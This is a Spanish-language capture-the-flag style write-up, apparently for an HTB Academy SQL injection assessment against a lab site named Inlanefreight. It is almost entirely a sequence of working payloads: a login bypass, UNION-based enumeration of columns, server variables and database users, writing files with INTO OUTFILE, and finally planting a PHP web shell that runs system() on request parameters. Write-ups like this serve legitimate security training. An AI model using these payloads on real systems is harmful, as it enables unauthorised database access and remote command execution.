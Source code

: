 # Skills Assessment - SQL Injection Fundamentals

La empresa Inlanefreight le ha contratado para realizar una evaluación de la aplicación web en uno de sus sitios web públicos. En vista de una reciente vulneración de seguridad de uno de sus principales competidores, están especialmente preocupados por las vulnerabilidades de inyección SQL y el daño que el descubrimiento y la explotación exitosa de este ataque podría causar a su imagen pública y sus resultados.

Proporcionaron una dirección IP de destino y ninguna otra información sobre su sitio web. Realice una evaluación completa de la aplicación web desde un enfoque de "caja gris", verificando la existencia de vulnerabilidades de inyección SQL.

Al ingresar a la pagina proporcionada tenemos este login

![alt text](skills/1.png)

```
' OR 1 -- -
```

![alt text](skills/2.png)

```
cn' UNION select 1,2,3,4,5-- -
```
![alt text](skills/3.png)

```
cn' UNION SELECT 1, variable_name, variable_value, 4 ,5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
![alt text](skills/4.png)

```
cn' UNION SELECT 1, user, 3, 4 ,5 from mysql.user-- 

cn' UNION SELECT 1, user(), 3, 4, 5-- -
```
![alt text](skills/5.png)


```
cn' union select 1,'file written successfully!',3,4 ,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```
![alt text](image.png)
![alt text](image-1.png)

cn' union select "", "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- -

![alt text](image-2.png)
